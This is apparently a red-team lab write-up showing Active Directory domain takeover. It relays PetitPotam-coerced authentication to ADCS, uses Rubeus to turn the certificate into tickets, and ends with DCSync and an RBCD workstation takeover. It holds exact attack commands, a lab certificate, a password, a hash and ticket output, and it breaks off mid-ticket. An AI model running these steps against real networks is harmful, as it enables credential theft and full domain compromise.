

# ADCS + PetitPotam NTLM Relay: Obtaining krbtgt Hash with Domain Controller Machine Certificate

This is a quick lab to familiarize with an Active Directory Certificate Services (ADCS) + PetitPotam + NLTM Relay technique that allows attackers, given ADCS is misconfigured (which it is by default), to effectively escalate privileges from a low privileged domain user to Domain Admin.

The ADCS vulnerabilities were researched by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin\_) in [Certified Pre-Owned](https://posts.specterops.io/certified-pre-owned-d95910965cd2), [PetitPotam](https://github.com/topotam/PetitPotam) was researched by [Gilles Lionel @topotam77](https://twitter.com/topotam77), [ADCS attack](https://github.com/ExAndroidDev/impacket.git) implemented in impacket by [ExAndroidDev](https://twitter.com/exandroiddev).

## Conditions

Below are some of the conditions making an AD environment vulnerable to ADCS + NTLM relay attack:

* ADCS is configured to allow NTLM authentication;
* NTLM authentication is not protected by EPA or SMB signing;
* ADCS is running either of these services:
  * Certificate Authority Web Enrollment
  * Certificate Enrollment Web Service

## Overview

Below provides a high level overview of how the attack works:

1. Get a foothold in an AD network with a misconfigured ADCS instance;
2. Setup an NTLM relay listener on a box you control, so that incoming authentications are relayed to the misconfigured ADCS;
3. Force the target DC to authenticate (using PetitPotam or PrintSpooler trick) to the box running your NTLM relay;
4. Target DC attempts to authenticate to your NTLM relay;
5. NTLM relay receives the DC$ machine account authentication and relays it to the ADCS;
6. ADCS provides a certificate for the target DC$ computer account;
7. Use the target DC's computer account certificate to request its Kerberos TGT;
8. Use target DC's computer account TGT to perform [DCSync](dump-password-hashes-from-domain-controller-with-dcsync.md) and pull the NTLM hash of `krbtgt`;
9. Use `krbtgt` NTLM hash to create [Golden Tickets](kerberos-golden-tickets.md) that allow you to impersonate any domain user, including Domain Admin.

## Domain Takeover

### Lab Setup

This part of the lab is setup with the following computers and servers:

* 10.0.0.5 - Kali box with NTLM relay;
* 10.0.0.6 - target Domain Controller `DC01`. This is the target DC that we will coerce to authenticate to our NTLM relay on 10.0.0.5;
* 10.0.0.10 - Certificate Authority (`CA01`). This is where our NTLM relay 10.0.0.5 will forward `DC01` authentication;
* 10.0.0.7 - Windows worksation (`WS01`). This is the initial foothold in the network and this is the machine that will force the `DC01` to authenticate to our NTLM relay on 10.0.0.5;

### Installing Tools

Let's pull the version of impacket that has ADCS attack implemented and checkout the right branch:

```
git clone https://github.com/ExAndroidDev/impacket.git
cd impacket
git checkout ntlmrelayx-adcs-attack
```

.png>)

### Configuring Virtual Environment

Prepare a python virtual environment for impacket. Start by installing the virtual environment package:

```
apt install python3-venv
```

.png>)

Create and activate a new virtual python environment called `impacket`:

```
python3 -m venv impacket
source impacket/bin/activate
```

.png>)

Let's install all impacket dependencies:

```
pip install .
```

.png>)

### Finding Certificate Authority

On `WS01`, we can use a Windows LOLBIN `certutil.exe`, to find ADCS servers in the domain:

.png>)

We confirm that in our domain, `CA01` is our Certificate Authority that we will be relaying `DC01$` authentication to.

### Setting up NTLM Relay

On Kali box at 10.0.0.5, let's setup our NTLM relay to forward incoming authentications from `DC01$` to the `CA01`, or more specifically to one of its HTTP endpoints for certificate enrollment `http://ca01/certsrv/certfnsh.asp` like so:

```
examples/ntlmrelayx.py -t http://ca01/certsrv/certfnsh.asp -smb2support --adcs
```

.png>)

### Forcing DC01 to Authenticate to NTLM Relay

From `WS01`, let's force the `DC01` to authenticate to our NTLM relay at 10.0.0.5 by executing [`PetitPotam`](https://github.com/topotam/PetitPotam):

```
.\PetitPotam.exe 10.0.0.5 dc01
```

.png>)

Above shows how:

* `DC01` was forced to authenticate to 10.0.0.5;
* 10.0.0.5 relayed the `DC01$` authentication to `CA01`;
* `CA01` issued a certificate for the `DC01$` computer account.

### Requesting DC01$ TGT

On `WS01`, we can now use `rubeus` to request a Kerberos TGT for the `DC01$` computer account like so:

```
.\Rubeus.exe asktgt /outfile:kirbi /user:dc01$ /ptt /certificate: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
```


Use `runas /netonly /user:fake powershell` to create a new/sacrificial logon session into which the `DC01$` TGT will be injected to prevent messing up TGTs/TGSs for your existing logon session.


.png>)

`klist` confirms we now have a TGT for `DC01$` in the current logon session:

.png>)

We can now perform [DCSync](dump-password-hashes-from-domain-controller-with-dcsync.md) and pull the NTLM hash for the user `offsense\krbtgt`:


[dump-password-hashes-from-domain-controller-with-dcsync.md](dump-password-hashes-from-domain-controller-with-dcsync.md)


.png>)

Having the NTLM hash for `krbtgt` allows us to create [Kerberos Golden Tickets](kerberos-golden-tickets.md).


[kerberos-golden-tickets.md](kerberos-golden-tickets.md)


## Remember

It's worth remembering that in some AD environments there will be highly privileged accounts connecting to workstations to perform some administrative tasks and if you have local administrator rights on a compromised Windows box, you can perform ADCS + NTLM relay attack to request a certificate for that service account.&#x20;

To do so, you'd need the following:


**Reminder**\
****Consider your OPSEC.


* Stop the SMB service on the compromised box. This requires local admin privileges on the box and a reboot to stop the machine from listening on TCP 445;
* Spin up the NTLM relay on TCP 445;
* Wait for the service account to connect to your machine;
* Incoming service account authentication is relayed to the ADCS, which spits out the service account certificate;
* Use service account's certificate to request its Kerberos TGT;
* You've now gained administrative privileges on machines the compromised service account can access.

## RBCD: Remote Computer Takeover

It's also possible to gain administrative privileges over any remote computer given we have network access to that computer, as pointed out by Lee Christensen:



### Lab Setup

This part of the lab is setup with the following computers and servers:

* 10.0.0.5 - Kali box with NTLM relay;
* 10.0.0.7 - Windows worksation (`WS01`). This is the box we will coerce to authenticate our Kali box, which will relay the authentication to `DC01` and setup the computer `WS01` for a remote takeover;
* 10.0.0.6 - Domain Controller `DC01`;
* 10.0.0.10 - Certificate Authority (`CA01`). This is the box from which we will coerce `WS01` to authenticate to `DC01`;

### Setting up NTLM Relay

Let's set up our NTLM relay on the Kali box to relay authentications to DC01 via `LDAP` and specify the `--delegate-access` flag, which will automate the [Resource Based Constrained Delegation (RBCD)](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md) attack steps:

```python
examples/ntlmrelayx.py -t ldaps://dc01 -smb2support --delegate-access
```

Notes about RBCD takeover:


[resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md)


### Forcing WS01 to Authenticate to NTLM Relay

On computer `CA01`, let's invoke PetitPotam and coerce `WS01` (10.0.0.7) to authenticate to our Kali box (10.0.0.5) where our NTLM relay is setup:

```
.\PetitPotam.exe kali@80/spotless.txt 10.0.0.7
```

.png>)

On our Kali box, we can see the the incoming authentication from `WS01$` was relayed to `ldaps://dc01` and that a new computer `quaiivve$` account (that `WS01` now trusts and allows to impersonate any domain user), was created:

.png>)

Below screenshot shows that the `QUAIIVEE` computer account has been indeed created and `WS01$` has some privileges to it:

.png>)

Additionally, we can see that the attribute `msDS-AllowedToActOnBehalfOfOtherIdentity` on computer object `WS01` contains some binary value, which is empty by default on computer objects:

.png>)

From [Kerberos Resource-based Constrained Delegation: Computer Object Takeover](resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution.md#modifying-target-computers-ad-object), we know that the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute, after we've successfully performed the LDAP relay attack, effectively encodes the following: computer `WS01` trusts the computer account `QUAIIVVE$` and allows it to impersonate any domain user, including Domain Admins and grant them administrative access to `WS01`.

### Calculating Hash

On computer `CA01`, let's calculate the RC4 hash for the newly created computer account's `QUAIIVVE$`: password:

```
.\Rubeus.exe hash /domain:offense.local /user:QUAIIVVE$ /password:'K_-Jzsb&uK!`TIH'
```

.png>)

### Impersonating Domain Admin on WS01

Time to impersonate a Domain Admin.

While on `CA01`, we can use rubeus `s4u` command, which will:

1. Retrieve a TGT for `offense.local\QUAIIVVE$`;
2. Perform `S4U2Self`, which is a Kerberos extension that allows a service to obtain a TGS to **itself** on another user's behalf. So in our case, the `CA01` will request a TGS for `QUAIIVVE$@OFFENSE.LOCAL` as `administrator@offense.local`;
3. Perform `S4U2Proxy`, which is a Kerberos extension that enables services to request TGS tickets to **other** services on behalf of a given user. In this instance, a TGS will be requested for `cifs/ws01.offense.local`, which will allow `CA01` to access `WS01` computer's file system (i.e.,  `c$` share) on behalf of the Domain Admin `administrator@offense.local`:

```
PS C:\tools> .\Rubeus.exe s4u /user:QUAIIVVE$ /rc4:3F55290748348504327CDA267FCCA190 /impersonateuser:administrator@offense.local /msdsspn:cifs/ws01.offense.local /ptt /domain:offense.local

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4

[*] Action: S4U

[*] Using rc4_hmac hash: 3F55290748348504327CDA267FCCA190
[*] Building AS-REQ (w/ preauth) for: 'offense.local\QUAIIVVE$'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      doIFAjCCBP6gAwIBBaEDAgEWooIEEzCCBA9hggQLMIIEB6ADAgEFoQ8bDU9GRkVOU0UuTE9DQUyiIjAg
      oAMCAQKhGTAXGwZrcmJ0Z3QbDW9mZmVuc2UubG9jYWyjggPJMIIDxaADAgESoQMCAQKiggO3BIIDs4cS
      mkUPxpLm/0VamMXun7JiMnv9KdcA6NEDqqRxGkaCnqAOUJuORZr8IMBRZIAQQ/0uMPqZFka4H/3hmGDu
      j/nkZbIAAfKUnuXDEynJYR+Ra8u23pmYd2uTEtKFbNkiorpmoQVpEvgrpIWcE2qRsL2Gf4dVuV2NCxqV
      b2aBjmWqWN/nBnaUCjp8B2aGa9FjxdP6s+SgPQiXCoC+80iOLu38Pssb4Cf+RJBNNszdYnPlp3SK9Lyd
      7tDCsaF3aJO9H6+BYlI43MvQxyu40sW44skSB0sXrru3uFZpW6hdftAnUij3OArEVPjp52LN/VdLoUHq
      VX/HFeiPlX0Fly0kJ+wAeeLu60r70V6poWQ9PgTjYB1Ak1NGXKIZApUPwiTkraJBQ4rotAnwN+oMu7qS
      un9A4ARq2xeQDa9CqxXAfdtaBVYrYCwJSZfnzA6hlRVOw5tp7gA9bqvm7fj+gvUgFQhd/1FmTra5JIVp
      LKmL7Uzj2WKZqPnHygGZ+v+2QMm1vDJXqhbhgL2Civy5Um3tH+F5UVyo24gzxx470EUniLKTJ8EKNHFy
      idy+KVPJa7FAzzkgQgRDGgxmsYgPeSThKu3fkAijw4mz89aEek93F1/Hc/iMnwpC/7pSg07qy2uY9kz0
      8yKxOtYC+GBLuCsXsijRIHNbqVdwIGkalVuejvY+iDoC4vGwOiPhYmI1WrC4qUT6c1/hnKBMF+FHmRyS
      Njp0lCI0/71gy34xeb0J47hW07AtjiPPO43dU23G8rgWaSkjjws5SerEacHo4onilr47AqA53QRT3JDN
      vo1Hy5oWKM1Tm3LfEIjQMv32AkqDqB+zjRM5de+PXpqfUtwSifAq3N4YcfqWHrbNFrU5oz5Cdz3GvxeL
      uwgNxbVXXNbfFi1dHQ5XIwNeTyFpdHUglwmOyooqxcMrMiiNTUivRzheeEw+5SJvyHMsmVeQk0MeOUO1
      n8Gx8mw18uLU/EvVnmwfOFHLM1d4wpUHuOVOC0TwHM3npuPXR6UzZcvKYHlIeFdeduF8Rt/rNq+vLdKu
      5I6EEzc0ZCeuXcXu4FKHd/BDILwhwSK9is2emWmqUMNT+NnbZmHmXugM6I1t2+nIiVmB4DgOarumoomj
      PqnkSYnXVxWyF+0bNqCokUKE4RS4igUsWlF8WRhJqZITGVLIqH+YRVuG6N4LqceJm2MAtpPPPRSxJ3SS
      v3JP3LS9jvjHKyJZQokp46ZGn87M69o3QvrPPn0A0JZggKO4qTxSoHuhXQBqo4HaMIHXoAMCAQCigc8E
      gcx9gckwgcaggcMwgcAwgb2gGzAZoAMCARehEgQQNUQwX1lLwtWzFUCVxDsvo6EPGw1PRkZFTlNFLkxP
      Q0FMohYwFKADAgEBoQ0wCxsJUVVBSUlWVkUkowcDBQBA4QAApREYDzIwMjEwNzMxMjAwNzE5WqYRGA8y
      MDIxMDgwMTA2MDcxOVqnERgPMjAyMTA4MDcyMDA3MTlaqA8bDU9GRkVOU0UuTE9DQUypIjAgoAMCAQKh
      GTAXGwZrcmJ0Z3QbDW9mZmVuc2UubG9jYWw=


[*] Action: S4U

[*] Using domain controller: dc01.offense.local (10.0.0.6)
[*] Building S4U2self request for: 'QUAIIVVE$@OFFENSE.LOCAL'
[*] Sending S4U2self request
[+] S4U2self success!
[*] Got a TGS for 'administrator@offense.local' to 'QUAIIVVE$@OFFENSE.LOCAL'
[*] base64(ticket.kirbi):

      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

[*] Impersonating user 'administrator@offense.local' to target SPN 'cifs/ws01.offense.local'
[*] Using domain controller: dc01.offense.local (10.0.0.6)
[*] Building S4U2proxy request for service: 'cifs/ws01.offense.local'
[*] Sending S4U2proxy request
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'cifs/ws01.offense.local':

      doIGXDCCBligAwIBBaEDAgEWooIFWDCCBVRhggVQMIIFTKADAgEFoQ8bDU9GRkVOU0UuTE9DQUyiJTAj
      oAMCAQKhHDAaGwRjaWZzGxJ3czAxLm9mZmVuc2UubG9jYWyjggULMIIFB6ADAgESoQMCAQOiggT5BIIE
      9VCdZpnpXRodSwFgssc1BTs+UtIhkOGTG15XIragjr2cWAzWkqS3COJapihfdZ6PWrloviqo20o0cJdN
